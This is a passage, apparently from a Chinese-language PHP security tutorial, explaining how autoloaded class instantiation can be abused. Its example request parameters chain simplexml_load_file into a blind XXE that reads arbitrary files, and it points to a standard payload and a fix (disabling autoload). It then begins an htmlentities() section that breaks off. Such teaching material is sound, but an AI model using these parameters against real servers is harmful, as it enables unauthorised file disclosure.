 ```
http://localhost/xxe.php?c=HomeController&amp;d[t]=sky&amp;d[v][new]=skrskr
```

可以得到回显

```
controller rendering new response
```

但此时我们可以使用`SimpleXMLElement`或是`simplexml_load_string`对象触发盲打xxe，进行任意文件读取<br>
构造：

```
simplexml_load_file($filename,'SimpleXMLElement')
```

即

```
c=simplexml_load_file&amp;d[t]=filename&amp;d[v]=SimpleXMLElement
```

即可<br>
而这里的$filename使用最常见的盲打XXE的payload即可<br>
这就不再赘述，详细可参看

```
https://blog.csdn.net/u011721501/article/details/43775691
```

### <a class="reference-link" name="%E6%BC%8F%E6%B4%9E%E4%BF%AE%E5%A4%8D"></a>漏洞修复

对于特点情况，可关闭自动调用

```
bool $autoload = false
```



## htmlentities()函数

### <a class="reference-link" name="%E7%9B%B8%E5%85%B3%E7%9F%A5%E8%AF%86"></a>相关知识

(PHP 4, PHP 5, PHP 7)<br>
htmlentities — 将字符转换为 HTML 转义字符

```
string htmlentities ( string $string [, int $flags = ENT_COMPAT | ENT_HTML401 [, string $encoding = ini_get("default_charset") [, bool $double_encode = true ]]] )
```

本函数各方面都和 htmlspecialchars() 一样， 除了 htmlentities() 会转换所有具有 HTML 实体的字符。<br>
如果要解码（反向操作），可以使用 html_entity_decode()。

### <a class="reference-link" name="%E6%BC%8F%E6%B4%9E%E9%97%AE%E9%A2%98"></a>漏洞问题

